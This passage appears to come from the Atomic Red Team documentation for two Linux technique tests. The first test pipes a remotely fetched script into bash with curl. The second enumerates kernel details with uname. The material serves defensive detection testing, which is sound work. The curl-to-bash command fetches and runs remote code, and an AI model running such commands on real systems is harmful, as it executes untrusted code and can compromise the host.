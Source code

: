 **Supported Platforms:** Linux

**auto_generated_guid:** fca246a8-a585-4f28-a2df-6495973976a1

#### Inputs:

| Name       | Description           | Type | Default Value                                                                                               |
| ---------- | --------------------- | ---- | ----------------------------------------------------------------------------------------------------------- |
| remote_url | url of remote payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/pipe-to-shell.sh |

#### Attack Commands: Run with `sh`!

```sh
cd /tmp
curl -s #{remote_url} |bash
ls -la /tmp/art.txt
```

#### Cleanup Commands:

```sh
rm /tmp/art.txt
```

#### Dependencies: Run with `bash`!

##### Description: Check if curl is installed on the machine.

##### Check Prereq Commands:

```bash
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```

##### Get Prereq Commands:

```bash
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```

<br/>
<br/>

## Atomic Test #13 - Current kernel information enumeration

An adversary may want to enumerate the kernel information to tailor their attacks for that particular kernel. The following command will enumerate the kernel information.

**Supported Platforms:** Linux

**auto_generated_guid:** 3a53734a-9e26-4f4b-ad15-059e767f5f14

#### Attack Commands: Run with `sh`!

```sh
uname -srm
```

<br/>
